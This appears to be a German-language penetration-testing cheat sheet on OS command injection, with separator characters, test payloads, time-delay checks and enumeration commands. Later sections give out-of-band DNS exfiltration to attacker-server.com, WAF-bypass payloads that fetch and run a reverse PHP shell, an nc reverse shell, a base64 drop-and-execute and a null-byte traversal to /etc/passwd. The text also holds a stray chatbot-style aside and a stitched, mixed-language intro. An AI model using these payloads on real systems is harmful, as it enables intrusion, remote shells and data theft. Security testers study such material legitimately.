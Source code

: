 ```yaml
---
description: inject system commands through user input
---
```


# command injection — when user input meets system()

<details>

<summary>Links:</summary>

[https://github.com/payloadbox/command-injection-payload-list](https://github.com/payloadbox/command-injection-payload-list)

</details>

critical vulnerability where attackers inject arbitrary OS commands through manipulated parameters in URLs, forms, or HTTP requests. happens when user input is passed unfiltered to shell functions like `exec()`, `system()`, `passthru()`, `popen()`.: Einschleusen von Systembefehlen
---

# Command Injection

<details>

<summary>Links:</summary>

[https://github.com/payloadbox/command-injection-payload-list](https://github.com/payloadbox/command-injection-payload-list)

</details>

Command Injection (Befehlsinjektion) beschreibt eine schwerwiegende Sicherheitslücke, bei der ein Angreifer beliebige Betriebssystembefehle in eine Anwendung einschleusen kann. Dies geschieht typischerweise durch manipulierte Parameter in URLs, Formularen oder HTTP-Requests. Der Angriff ist möglich, wenn Benutzereingaben ungefiltert an eine Shell übergeben werden, z. B. über `exec()`, `system()`, `passthru()`,`popen()` oder ähnliche Funktionen in serverseitigem Code.

## 0. Testen auf Command Injection

### 0.a Blind Injection

Hier sollten Blind-Injection-Payloads mit delay verwendet werden um die Anwendung für bestimmte Zeit zu blockieren, was die Anfälligkeit beweist.

Dafür können bspw. `ping` oder `sleep` verwendet werden.&#x20;

Ebenso kann der Output eines Befehls per `>` in eine Datei geschrieben werden, die dann mit `cat` ausgelesen werden kann.

### 0.b Verbose Injection

Da hier der Output direkt durch die Web-Applikation dargestellt wird, kann durch bspw. `ping` oder `whoami` die Anfälligkeit geprüft werden.

***

## **1. Typische Einfallstore für Befehlsinjektionen**

Die Schwachstelle tritt häufig bei Anwendungen auf, die Benutzereingaben in einem Systemkontext ausführen – etwa zur Verarbeitung von Dateipfaden, Pingen von Hosts oder Aufrufen von Hilfsprogrammen. Jede Eingabe, die an eine URL oder einen Befehlskontext angehängt wird, kann potenziell angreifbar sein.

**Beispielhafte URLs mit Injektionsmöglichkeit:**

```
http://example.com/ping?host=127.0.0.1
http://example.com/process?user=name
```

***

## **2. Zeichen zur Befehlstrennung (Special Characters)**

Zur Durchführung von Command Injections werden Zeichen verwendet, die die Shell zur Trennung oder Verkettung von Befehlen interpretiert. Diese Zeichen ermöglichen es, über reguläre Eingaben hinaus zusätzliche Befehle einzuschleusen.

| Zeichen         | Funktion                                              |
| --------------- | ----------------------------------------------------- |
| `&`             | Führt mehrere Befehle nacheinander aus                |
| `;`             | Trennt zwei Befehle (unabhängige Ausführung)          |
| `&&`            | Führt zweiten Befehl nur bei Erfolg des ersten aus    |
| `` `command` `` | Führt `command` aus und ersetzt ihn durch die Ausgabe |
| `$(command)`    | Alternative zu Backticks für Befehlsausführung        |
|  (Newline)      | Neue Zeile – kann zur Trennung genutzt werden         |

***

## **3. Nützliche Befehle für die Enumeration**

#### **Linux**

```bash
whoami         # Benutzername
ifconfig       # Netzwerkinformationen
ls             # Verzeichnisinhalt
uname -a       # Systeminformationen
```

#### **Windows**

```cmd
whoami         # Benutzername
ipconfig       # Netzwerkinformationen
dir            # Verzeichnisinhalt
ver            # Betriebssystemversion
```

***

## **4. Plattformübergreifende Testpayloads**

Diese Payloads funktionieren unter Unix- und Windows-Systemen, um einfache Prüfungen vorzunehmen.

```bash
ls||id
ls | id
ls && id
ls & id
ls %0A id     # URL-codierter Newline zur Trennung
```

***

## **5. Zeitbasierte Erkennung (Time Delay)**

**Zweck:** Testen, ob ein injizierter Befehl tatsächlich ausgeführt wird – etwa durch Beobachtung von Antwortverzögerungen.

```bash
& ping -c 10 127.0.0.1 &
```

**Hinweis:** Unter Windows funktioniert z. B. `ping -n 10 127.0.0.1`

***

## **6. Ausgabeumleitung und Dateischreibung**

Injektionen lassen sich durch Umleitung der Befehlsausgabe verifizieren. Die Resultate werden z. B. in eine Datei geschrieben, auf die später zugegriffen werden kann.

```bash
& whoami > /var/www/images/output.txt &
```

***

## **7. Out-of-Band (OOB) Exploitation**

Wenn keine direkte Rückmeldung erfolgt, kann die Injektion über externe Server validiert werden. Dies eignet sich besonders bei restriktiven Firewalls oder Logging-basierten Auswertungen.

```bash
& nslookup attacker-server.com &
& nslookup `whoami`.attacker-server.com &
```

Diese Methode überträgt Ausgaben via DNS-Request an einen kontrollierten Server und bestätigt so die Injektion indirekt.

***

## **8. WAF-Umgehungstechniken**

Web Application Firewalls (WAFs) versuchen häufig, bekannte Payloads zu blockieren. Durch Kodierung, Umstrukturierung oder alternative Syntax können diese Schutzmechanismen umgangen werden.

**Beispiele:**

```bash
vuln=127.0.0.1%0a wget https://evil.txt/reverse.txt -O /tmp/reverse.php %0a php /tmp/reverse.php
```

```bash
vuln=127.0.0.1%0anohup nc -e /bin/bash <attacker-ip> <attacker-port>
```

```bash
vuln=echo PAYLOAD > /tmp/payload.txt; cat /tmp/payload.txt | base64 -d > /tmp/payload; chmod 744 /tmp/payload; /tmp/payload
```

Diese Methoden ermöglichen unter anderem das Nachladen und Ausführen von Reverse Shells oder skriptbasierten Angriffen.

Hier ist ein professionell formulierter **Mini-Zusammenschrieb**, der das beschriebene Szenario technisch präzise zusammenfasst und gleichzeitig den geeigneten Kontext in Ihrer standardkonformen Angriffskategorisierung bestimmt:

***

## **9. Poison Null Byte Bypass**

**Beschreibung:**\
Ein **Poison Null Byte** ist eine klassische Technik zur Umgehung serverseitiger Filtermechanismen, insbesondere bei Pfad- oder Dateiverarbeitungen. Der Null-Byte-Zeichenwert (`%00`) signalisiert in vielen Programmiersprachen (v. a. in C/C-basierten Umgebungen) das Ende eines Strings. Durch gezielte Manipulation — z. B. in Kombination mit Dateiendungen — kann ein Angreifer erreichen, dass der Server eine Datei anders interpretiert als beabsichtigt.

**Beispiel:**\
Ein Server blockiert den Zugriff auf `.md`-Dateien mit einem `403 Forbidden`. Durch Einschleusen eines Null-Byte-Zeichens (`%00`) vor einer erlaubten Dateiendung wird der Pfad abgeschnitten und die Zugriffskontrolle umgangen. In URL-kodierter Form muss das `%00` nochmals kodiert werden → `%2500`.

**Angriffsvektor:**

```
/download.php?file=../../etc/passwd%2500.md
```

Der Server prüft auf `.md`, bricht aber die Pfadverarbeitung beim Nullbyte ab und gibt ggf. den Inhalt von `/etc/passwd` aus.
